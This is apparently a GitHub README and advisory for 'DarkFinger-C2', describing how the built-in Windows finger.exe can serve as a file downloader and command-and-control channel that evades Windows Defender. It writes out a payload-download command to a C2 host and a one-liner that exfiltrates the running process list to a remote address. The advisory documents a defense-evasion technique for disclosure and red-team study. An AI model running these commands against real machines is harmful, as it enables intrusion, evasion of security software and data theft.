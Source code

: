MIT License

Copyright (c) 2020 John Page (aka hyp3rlinx)

Permission is also explicitly given for insertion in vulnerability databases and similar,
provided that due credit is given to the author Copyright (c) 2020 John Page (aka hyp3rlinx).

# DarkFinger-C2
Windows TCPIP Finger Command / C2 Channel and Bypassing Security Software

http://hyp3rlinx.altervista.org/advisories/Windows_TCPIP_Finger_Command_C2_Channel_and_Bypassing_Security_Software.txt

Microsoft Windows TCPIP Finger Command "finger.exe" that ships with the OS, can be used as a file downloader and makeshift C2 channel.
Legitimate use of Windows Finger Command is to send Finger Protocol queries to remote Finger daemons to retrieve user information.
However, the finger client can also save the remote server response to disk using the command line redirection operator ">".

Intruders who compromise a computer may find it is locked down and "unknown" applications may be unable to download programs or tools.
By using built-in native Windows programs, its possible they may be whitelisted by installed security programs and allowed to download files.

Redteams and such using LOL methods have made use of "Certutil.exe", native Windows program for downloading files. However, Certutil.exe is
recently blocked by Windows Defender Antivirus and logged as event "Trojan:Win32/Ceprolad.A" when it encounters http/https://.

Therefore, using Windows finger we can bypass current Windows Defender security restrictions to download tools, send commands and exfil data.
The Finger protocol as a C2 channel part works by abusing the "user" token of the FINGER Query protocol "user@host". C2 commands masked as
finger queries can download files and or exfil data without Windows Defender interference.

Download files:
C:\> finger <C2-Command>@HOST > Malwr.txt

Exfil running processes:
C:\> for /f "tokens=1" %i in ('tasklist') do finger %i@192.168.1.21

PoC
https://www.youtube.com/watch?v=cfbwS6zH7ks
  
![ScreenShot](DarkFingerC2.JPG)


